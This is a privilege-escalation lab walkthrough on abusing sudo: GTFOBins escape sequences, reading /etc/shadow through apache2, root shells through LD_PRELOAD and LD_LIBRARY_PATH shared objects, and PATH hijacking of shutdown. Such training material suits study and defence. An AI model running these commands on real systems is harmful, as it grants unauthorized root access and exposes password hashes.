





Sudo
Sudo
A) Shell Escape Sequences
List the programs which sudo allows your user to run:
sudo -l
Visit GTFOBins (https://gtfobins.github.io) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.
Choose a program from the list and try to gain a root shell, using the instructions from GTFOBins.
For an extra challenge, try to gain a root shell using all the programs on the list!
Example (If Apache is given sudo access)
sudo apache2 -f /etc/shadow
Note: This technique is used to read the first line of any file.
B) Environment Variables
Sudo can be configured to inherit certain environment variables from the user's environment.
Check which environment variables are inherited (look for the env_keep options):
sudo -l
LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.
Using LD_PRELOAD
Create a shared object using the code located at /home/user/tools/sudo/preload.c:
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:
sudo LD_PRELOAD=/tmp/preload.so program-name-here
A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.
Example

Using LD_LIBRARY_PATH
Run ldd against the apache2 program file to see which shared libraries are used by the program:
ldd /usr/sbin/apache2
Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):
sudo LD_LIBRARY_PATH=/tmp apache2
A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.
Example

Note: If we want to consider any other library file and then we need to change the name accordingly in the library_path.c file. (Research)
C) Path Variable in Sudo
Lets check sudo on the Target Machine:

Normal Sudo

As we can see, the secure_path is not present on the target machine. This means if any executible uses any program without absolute path. We can use this to plant our program in a different path.
Lets examine the /usr/sbin/shutdown binary by taking it to kali machine.
Target Machine: cp /usr/sbin/shutdown /tmp
Attacker Machine: scp -P 9090 fox@10.10.93.57:/tmp/shutdown .
Examine the Shutdown Binary using radare2:
radare2 -AAA <Filename>
pdf @main

As we can see, the poweroff is called without absoulute path.
We need to copy the /bin/bash binary to /tmp and rename as poweroff and add the /tmp path while calling the shutdown using sudo.
cp /bin/bash /tmp/poweroff
Then run the sudo command along with PATH as follows:
sudo "PATH=/tmp:$PATH" /usr/sbin/shutdown
